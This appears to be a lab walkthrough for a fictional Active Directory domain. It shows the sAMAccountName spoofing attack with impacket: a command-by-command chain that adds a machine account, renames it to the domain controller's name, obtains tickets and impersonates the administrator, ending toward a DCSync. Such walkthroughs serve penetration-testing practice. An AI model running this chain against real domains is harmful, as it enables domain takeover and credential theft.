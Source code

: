 Create a venv:

```
python3 -m virtualenv myimpacket
source myimpacket/bin/activate
python3 -m pip install .
```

Get the waiting pull requests we need and merge them to our branch:

```
git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202
git merge 1202
git merge 1224
```

Reorder the path entry result to load our pyenv bin before the others in the $PATH (this is needed on zsh, in bash it take directly our pyenv bins) `rehash`

What we will do is add a computer, clear the SPN of that computer, rename computer with the same name as the DC, obtain a TGT for that computer, reset the computer name to his original name, obtain a service ticket with the TGT we get previously and finally dcsync :)

Add a computer: `addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'`

Clear the SPNs of our new computer (with dirkjan krbrelayx tool addspn): 

```
addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'
```
Rename the computer (computer -> DC)

```
renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing
```

Obtain a TGT

```
getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
```

Reset the computer name back to the original name

```
renameMachine.py -current-name 'winterfell' -new-name 'samaccount$' north.sevenkingdoms.local/jon.snow:iknownothing
```

Obtain a service ticket with S4U2self by presenting the previous TGT

```
export KRB5CCNAME=/workspace/winterfell.ccache
getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
```
